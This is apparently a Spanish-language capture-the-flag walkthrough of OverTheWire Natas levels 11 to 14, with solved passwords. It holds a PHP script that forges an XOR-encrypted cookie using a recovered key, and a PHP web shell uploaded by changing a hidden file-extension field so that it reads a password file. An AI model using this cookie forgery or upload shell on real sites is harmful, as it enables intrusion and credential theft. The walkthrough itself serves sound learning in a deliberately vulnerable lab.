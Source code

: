 La key es `qw8J`

Ahora, conocida la clave, podemos modificar la cookie a voluntad, indicando `showpassword = yes`

```
<?php
function xor_encrypt($in) {
    $key = 'qw8J';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$c = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));
print base64_encode(xor_encrypt($c)) . "\n";
?>
```

The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

# natas12

Se sube un fichero ".jpg", pero no se verifica (puede ser cualquier cosa, inyección de ficheros). Se guarda con nombre aleatorio en upload/<10chars>.jpg

Sin embargo, nombre y extensión van en un campo *hidden* del formulario; basta con alterarlo (cambiar `.jpg` por `.php`) y ejecutar el fichero subido con este contenido:

<?php
  system("cat /etc/natas_webpass/natas13");
?>

Resultado:
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

# natas13

Muy similar, pero esta vez hay que subir realmente un fichero .jpg. Basta con añadir el código al final y alterar la extensión de la misma manera.

El resutaldo es:
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

# natas14

Inyección SQL
